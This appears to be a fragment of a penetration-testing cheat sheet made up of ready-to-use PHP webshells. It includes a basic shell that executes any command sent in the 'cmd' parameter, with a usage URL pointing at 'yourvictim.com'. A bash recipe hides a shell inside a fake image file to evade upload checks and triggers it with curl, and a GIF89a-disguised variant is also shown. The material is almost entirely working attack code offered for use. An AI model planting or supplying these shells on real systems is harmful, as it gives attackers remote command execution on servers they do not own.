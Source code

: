 More examples here
-------------------
https://github.com/jivoi/pentest/tree/master/shell

Simple PHP Webshell
-------------------
usage: http://www.yourvictim.com/shellname.php?cmd=whoami

```html
html
<html>
 <head>
  <title>PHP Test</title>
 </head>
 <body>
<?php
if(isset($_REQUEST['cmd'])){
        echo "<pre>";
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
        echo "</pre>";
        die;
}
?>
 </body>
</html>
```

PHP web shell in a GIF with curl example
----------------------
```bash
echo 'FFD8FFEo' | xxd -r -p > test.gif
echo '<?php $c=$_GET['c']; echo `$c`; ?>' >> test.gif
curl -v http://ololo/uploads/test.gif?c=id
```

PHP web shell in GIF
--------------------
```php
GIF89a
<?php
echo "<pre>";
system($_GET['cmd']);
echo "</pre>";
?>
```
